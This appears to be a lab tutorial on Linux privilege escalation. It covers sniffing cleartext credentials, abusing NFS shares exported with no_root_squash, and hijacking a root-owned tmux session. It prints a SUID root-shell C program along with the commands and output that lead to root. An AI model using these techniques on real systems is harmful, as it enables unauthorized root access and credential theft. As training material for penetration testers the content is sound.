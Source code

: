 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Passive Traffic Capture](#Passive\Traffic\Capture)
    - [Weak NFS Privileges](#Weak\NFS\Privileges)
- [/etc/exports: the access control list for filesystems which may be exported](#/etc/exports:\the\access\control\list\for\filesystems\which\may\be\exported)
- [Example for NFSv2 and NFSv3:](#example\for\nfsv2\and\nfsv3:)
- [/srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)](#/srv/homes\\\\\\\hostname1(rw,sync,no_subtree_check)\hostname2(ro,sync,no_subtree_check))
- [Example for NFSv4:](#example\for\nfsv4:)
- [/srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)](#/srv/nfs4\\\\\\\\gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check))
- [/srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)](#/srv/nfs4/homes\\gss/krb5i(rw,sync,no_subtree_check))
  - [Hijacking Tmux Sessions](#Hijacking\Tmux\Sessions)

## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Passive Traffic Capture](#Passive\Traffic\Capture)
    - [Weak NFS Privileges](#Weak\NFS\Privileges)
- [/etc/exports: the access control list for filesystems which may be exported](#/etc/exports:\the\access\control\list\for\filesystems\which\may\be\exported)
- [Example for NFSv2 and NFSv3:](#example\for\nfsv2\and\nfsv3:)
- [/srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)](#/srv/homes\\\\\\\hostname1(rw,sync,no_subtree_check)\hostname2(ro,sync,no_subtree_check))
- [Example for NFSv4:](#example\for\nfsv4:)
- [/srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)](#/srv/nfs4\\\\\\\\gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check))
- [/srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)](#/srv/nfs4/homes\\gss/krb5i(rw,sync,no_subtree_check))
  - [Hijacking Tmux Sessions](#Hijacking\Tmux\Sessions)



## Passive Traffic Capture
if `tcpdump` is installed, unprivileged users may be able to capture network traffic, including credentials passed in cleartext. Many tools exist for this purpose: such as [net-creds](https://github.com/DanMcInerney/net-creds) and [PCredz](https://github.com/lgandx/PCredz) that can be used to examine data being passed on the wire. This may result in capturing sensitive information such as credit card numbers and SNMP community strings. It may also be possible to capture Net-NTLMv2, SMBv2, or Kerberos hashes, which could be subjected to an offline brute force attack to reveal the plaintext password. Cleartext protocols such as HTTP, FTP, POP, IMAP, telnet, or SMTP may contain credentials that could be reused to escalate privileges on the host.


### Weak NFS Privileges
NFS (Network File System) allows users to access shared files or directories over the network hosted on Unix/Linux systems. *NFS uses TCP/UDP port `2049`*. 

Any accessible mounts can be listed by issuing the command `showmount -e`, which lists the NFS server's export list (or the access control list for filesystems) that NFS clients.

```shell
gdxqpardo@htb[/htb]$ showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

**When an NFS volume is created, various options can be set:****

| Option           | Description                                                                                                                                                                                                                                                                                   |
| ---------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `root_squash`    | If the root user is used to access NFS shares, it will be changed to the `nfsnobody` user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the `nfsnobody` user, which prevents an attacker from uploading binaries with the SUID bit set. |
| `no_root_squash` | Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.                                                                           |

```shell
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

For example, we can create a SETUID binary that executes `/bin/sh` using our local root user. We can then mount the `/tmp` directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

First, create a simple binary, mount the directory locally, copy it, and set the necessary permissions.

Miscellaneous Techniques

```shell
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

When we switch back to the host's low privileged session, we can execute the binary and obtain a root shell.

## Hijacking Tmux Sessions

Terminal multiplexers such as [tmux](https://en.wikipedia.org/wiki/Tmux) can be used to allow multiple terminal sessions to be accessed within a single console session. When not working in a `tmux` window, we can detach from the session, still leaving it active (i.e., running an `nmap` scan). For many reasons, a user may leave a `tmux` process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.


```shell
 tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

If we can compromise a user in the `dev` group, we can attach to this session and gain root access.

Check for any running `tmux` processes.

```shell
htb@NIX02:~$  ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

Confirm permissions.

```shell
htb@NIX02:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

Review our group membership.

```shell
htb@NIX02:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

Finally, attach to the `tmux` session and confirm root privileges.

```shell
htb@NIX02:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```


